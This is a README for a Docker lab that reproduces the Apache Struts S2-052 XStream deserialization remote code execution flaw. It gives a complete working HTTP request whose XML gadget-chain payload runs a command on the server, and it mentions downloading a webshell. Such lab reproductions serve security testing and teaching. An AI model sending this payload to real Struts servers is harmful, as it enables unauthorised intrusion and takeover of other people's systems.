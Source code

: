 # S2-052 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

Details:

 - http://struts.apache.org/docs/s2-052.html
 - https://yq.aliyun.com/articles/197926

## Setup

```
docker-compose up -d
```

## Expliot

After launching the environment, visit `http://your-ip:8080/orders.xhtml` to see the showcase page. We need modify the `orders.xhtml` to `order.xml` or modify the `Content-Type` header to `application/xml` to pass the XML data in the body.

So, the package is:

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

If the packet is executed, the file `/tmp/success` will be created in the docker container. We execute `docker-compose exec struts2 ls /tmp/`, and we can see `success`.

In addition, we can also download a jspx webshell:

![](01.png)
